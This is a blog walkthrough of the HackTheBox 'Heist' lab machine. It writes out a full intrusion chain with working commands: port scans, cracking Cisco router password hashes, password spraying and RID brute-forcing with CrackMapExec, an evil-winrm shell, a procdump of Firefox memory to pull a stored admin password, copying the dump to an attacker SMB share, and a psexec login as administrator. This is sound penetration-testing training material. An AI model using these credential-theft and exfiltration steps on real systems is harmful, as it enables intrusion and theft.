 ```yaml
---
title : "HackTheBox - Heist"
author: Jesse Moore
date: 2022-04-13 11:33:00 +0800
categories: [Hackthebox]
tags: [hacking]
---
```

![image](https://user-images.githubusercontent.com/6413570/163594479-da3881df-dd4d-418d-9a11-f9c5b7e65011.png)
10.10.10.149
root@kali:~/htb/heist# gedit /etc/hosts

nmap -sS -sV -A -O -p- 10.10.10.149

nmap -vv 10.10.10.149
![image](https://user-images.githubusercontent.com/6413570/163594525-b8c27faf-81b0-4b97-b166-3c3b786db601.png)

We find IIS running on port 80, MSRPC on port 135 and SMB on 445. Additionally, port 5985
![image](https://user-images.githubusercontent.com/6413570/163594597-bef084fc-b3c6-4304-a1c3-0f09dbc7acd0.png)

Website
![image](https://user-images.githubusercontent.com/6413570/163594652-d705ac77-341a-4e92-b6fb-987a2141dcef.png)

Login as Guest
![image](https://user-images.githubusercontent.com/6413570/163594668-d961203d-c52f-4da2-90da-76bd085e84d7.png)

Cisco router attachment:
hostname ios-1 
! 
security passwords min-length 12 
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91 
! 
username rout3r password 7 0242114B0E143F015F5D1E161713 
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
![image](https://user-images.githubusercontent.com/6413570/163594701-c8cbb43e-3ab2-4f7f-b228-463004a67814.png)

Type 5 password can be cracked:
https://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html

$1$pdQG$o8nrSzsGXeaduXrjlvKc91 '
![image](https://user-images.githubusercontent.com/6413570/163594735-259a7a05-fdd6-4d13-b056-f246bab4381e.png)

![image](https://user-images.githubusercontent.com/6413570/163594759-e3244bdd-9734-408e-8607-1beb730db99f.png)

Additional cisco resources:
https://github.com/axcheron/cisco_pwdecrypt
![image](https://user-images.githubusercontent.com/6413570/163594892-ff8c46c5-33d1-40c6-b93d-85102fa20c0c.png)

This cracks instantly using MSFT Edge browser (Firefox in Kali doesn't work).

type 7 cisco password

username rout3r password 7 0242114B0E143F015F5D1E161713 


https://www.ifm.net.nz/cookbooks/passwordcracker.html
\

0242114B0E143F015F5D1E161713 
![image](https://user-images.githubusercontent.com/6413570/163594937-6bd3ad28-0d4f-4d61-a6e1-86f7e819dc8e.png)

![image](https://user-images.githubusercontent.com/6413570/163594949-89db9386-42ed-4b08-b09b-fe854e4912ad.png)

$uperP@ssword


https://www.ifm.net.nz/cookbooks/passwordcracker.html

02375012182C1A1D751618034F36415408
![image](https://user-images.githubusercontent.com/6413570/163594990-69713ed3-ea3a-4ab9-b204-0bad69b38722.png)

Q4)sJu\Y8qz*A3?d
![image](https://user-images.githubusercontent.com/6413570/163595029-ec96ca2c-8105-4afc-808b-3620f6cf237f.png)

crack type 5 with john

echo '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' > cisco5hash
![image](https://user-images.githubusercontent.com/6413570/163595082-d2f67bb5-5ac7-4b77-908e-baf813a771e1.png)

john --fork=4 -w=rockyou.txt cisco5hash
![image](https://user-images.githubusercontent.com/6413570/163595109-c3191c6b-b276-41c0-b53b-9f686653f170.png)
stealth1agent 

![image](https://user-images.githubusercontent.com/6413570/163595143-40153ccc-f2f5-4478-8041-b92297cb9e56.png)

Enumerating website provides users:
Hazard
Support Admin
rout3r
admin
![image](https://user-images.githubusercontent.com/6413570/163595180-09fc296b-0647-4974-93bd-8daed90ad2ab.png)
![image](https://user-images.githubusercontent.com/6413570/163595187-89f1c2ad-f748-4072-9117-049ad5a61f5f.png)

Put them into user file
root@kali:~/htb/heist# gedit user.txt

Use password from ciscopasswordcrack
stealth1agent
$uperP@ssword

root@kali:~/htb/heist# gedit passwords.txt
![image](https://user-images.githubusercontent.com/6413570/163595214-c9a709d3-06db-449d-9676-cab417ac6a6c.png)

use CrackMapExecv5.0.2dev to bruteforce


https://github.com/byt3bl33d3r/CrackMapExec/releases/tag/v5.0.2dev
![image](https://user-images.githubusercontent.com/6413570/163595247-82b81309-95b2-46b8-b4f2-7eb35949de58.png)

python3 cme smb 10.10.10.149 -u user.txt -p passwords.txt
![image](https://user-images.githubusercontent.com/6413570/163595267-cf973e1f-c071-44de-bfa9-8e307a368f17.png)
SupportDesk\Hazard:stealth1agent 

WinRm login?
python3 cme winrm 10.10.10.149 -u Hazard -p stealth1agent 
![image](https://user-images.githubusercontent.com/6413570/163595299-85befa2d-2fe1-4cd0-9960-f5d37e22e64c.png)
Isn't in Remote Management Users group

Rid-brute force
python3 cme smb 10.10.10.149 -u Hazard -p stealth1agent --rid-brute
![image](https://user-images.githubusercontent.com/6413570/163595332-c211671c-f2d3-496b-a247-6f881462c553.png)

Add the additional users
Chase
Jason
![image](https://user-images.githubusercontent.com/6413570/163595364-8e2fd1b8-fa7a-4cb4-8dfa-7d3ddf73a66b.png)
![image](https://user-images.githubusercontent.com/6413570/163595376-718804da-563b-4621-88ea-1c9356a11f91.png)

python3 cme smb 10.10.10.149 -u user.txt -p passwords.txt
![image](https://user-images.githubusercontent.com/6413570/163595396-3e06cf6f-77ac-407a-8a6e-b4ee2d36a530.png)

I missed one of the cisco type7 passwords, so I added it:
Q4)sJu\Y8qz*A3?d
![image](https://user-images.githubusercontent.com/6413570/163595425-a7dc1b79-79ac-4fd7-9756-90fe19dac1a5.png)

python3 cme smb 10.10.10.149 -u user.txt -p passwords.txt
![image](https://user-images.githubusercontent.com/6413570/163595461-a120f4b6-13ad-478f-a13e-f2321e1c60c6.png)

Chase
Q4)sJu\Y8qz*A3?d 

WinRm?
python3 cme winrm 10.10.10.149 -u Chase -p Q4)sJu\Y8qz*A3?d
![image](https://user-images.githubusercontent.com/6413570/163595484-d006bd8e-f1fe-451b-9e7c-bdf65e0438a9.png)

git clone https://github.com/Hackplayers/evil-winrm
![image](https://user-images.githubusercontent.com/6413570/163595515-0f8c110f-bded-4083-9e42-827388245914.png)

![image](https://user-images.githubusercontent.com/6413570/163595521-4a60a9a3-d7df-4acd-a3a5-656e2d8ecfb2.png)
gem install evil-winrm

ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
![image](https://user-images.githubusercontent.com/6413570/163595560-aa7aca38-34af-4f75-8151-3f1f44114479.png)

![image](https://user-images.githubusercontent.com/6413570/163595571-5e67d05b-7c3e-4355-92e0-16c8a5288ee5.png)
a127daef77ab6d9d92008653295f59c4

Privesc
![image](https://user-images.githubusercontent.com/6413570/163595603-47cf29b6-ee2d-431e-9269-f379ebd4dfa3.png)

![image](https://user-images.githubusercontent.com/6413570/163595613-70e25a2b-ba87-46d8-9054-127def4f23c9.png)

![image](https://user-images.githubusercontent.com/6413570/163595624-1b8ce3e6-735c-4a52-91f5-9f394449a0ca.png)

get-process -name firefox

download procdump
![image](https://user-images.githubusercontent.com/6413570/163595648-a54fba88-d16b-4318-af23-aa204ea52b19.png)

![image](https://user-images.githubusercontent.com/6413570/163595668-0caaee16-5985-4b64-930b-7a6c1e80fbc7.png)

![image](https://user-images.githubusercontent.com/6413570/163595673-d3041b10-19b6-4217-9f13-dce4bf2cfaef.png)

-ma flag to dump the entire memory of process
.\procdump.exe -ma 

get-process -name firefox
![image](https://user-images.githubusercontent.com/6413570/163595710-957d7654-b286-4a6d-a2bc-0bfebc7e9ecd.png)

PID is Id
3004

.\procdump.exe -ma 3004 firefox.dmp

First time running procdump needs -accepteula flag

*Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump.exe -accepteula -ma 3004 firefox.dmp
![image](https://user-images.githubusercontent.com/6413570/163595741-083138ec-df42-4577-8ee4-e511975dadfc.png)

![image](https://user-images.githubusercontent.com/6413570/163595750-5532ae9c-1357-4a67-a4d2-435c8c7787e5.png)

SMB server to transfer file 

root@kali:~/htb/heist# smbserver.py -smb2support -username jesse -password jesse2 share /root/htb/heist/

need to be in Impacket folder
locate smbserver.py

cd /usr/share/doc/python3-impacket/examples/
root@kali:/usr/share/doc/python3-impacket/examples# python3 smbserver.py -smb2support -username jesse -password jesse2 share /root/htb/heist/
![image](https://user-images.githubusercontent.com/6413570/163595790-8f05c3cd-2fb7-401b-b8f2-9ac18c4e7721.png)
![image](https://user-images.githubusercontent.com/6413570/163595797-43b5dd17-ad1b-497a-9a0f-9de208b4cd49.png)

![image](https://user-images.githubusercontent.com/6413570/163595804-d29f50fa-9552-448b-acc9-da135649399c.png)

Screw it, can't get this to work, so I will use Evil-WinRM:
![image](https://user-images.githubusercontent.com/6413570/163595820-91696f29-01bc-4232-8ae7-c96113a7bdee.png)

https://docs.microsoft.com/en-us/sysinternals/downloads/strings

upload strings
![image](https://user-images.githubusercontent.com/6413570/163595839-ee7bc950-6341-4ea0-9205-df240e0e9f7c.png)

Evil-WinRM* PS C:\Users\Chase\Desktop> ./strings.exe -a firefox.dmp | findstr login_password > what.txt
![image](https://user-images.githubusercontent.com/6413570/163595866-a6f6040f-9017-4ee3-8190-46968f57513b.png)

This didn't work above....

so atfter a long upload from WinRM....
![image](https://user-images.githubusercontent.com/6413570/163595884-d85ab17f-06a4-4af7-8a99-b99884c421ef.png)

![image](https://user-images.githubusercontent.com/6413570/163595894-0c851598-7391-49b2-9794-c7338e0b5685.png)
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

4dD!5}x/re8]FBuZ

ropnop staticbinary
https://github.com/ropnop/impacket_static_binaries

root@kali:~/htb/heist# curl -s -o smbserver_linux -L https://github.com/ropnop/impacket_static_binaries/releases/download/0.9.19-dev-binaries/smbserver_linux_x86_64

root@kali:~/htb/heist#chmod +x smbserver_linux 

root@kali:~/htb/heist#./smbserver_linux -smb2support -username guest -password guest share2 ~/htb/heist/
![image](https://user-images.githubusercontent.com/6413570/163595951-fe7bac9b-7791-4992-9aba-3a33ae342bae.png)

*Evil-WinRM* PS C:\Users\Chase\Desktop> net use x: \\10.10.14.10\share2 /user:guest guest
![image](https://user-images.githubusercontent.com/6413570/163595975-999dff5a-3ee4-45e8-89e1-cdef5923062c.png)

cmd /c copy firefox.dmp X:\

PSEXEC
psexec.py 'administrator:4dD!5}x/re8]FBuZ@10.10.10.149'
![image](https://user-images.githubusercontent.com/6413570/163596024-3a9d8a66-e611-436a-b5d4-a46c3b37345b.png)

![image](https://user-images.githubusercontent.com/6413570/163596032-6dc211e9-4f8d-4acd-a4ad-6a925548518f.png)
50dfa3c6bfd20e2e0d071b073d766897























If you find this interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/jessefmoore"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an Coffee?&emoji=&slug=jessefmoore&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
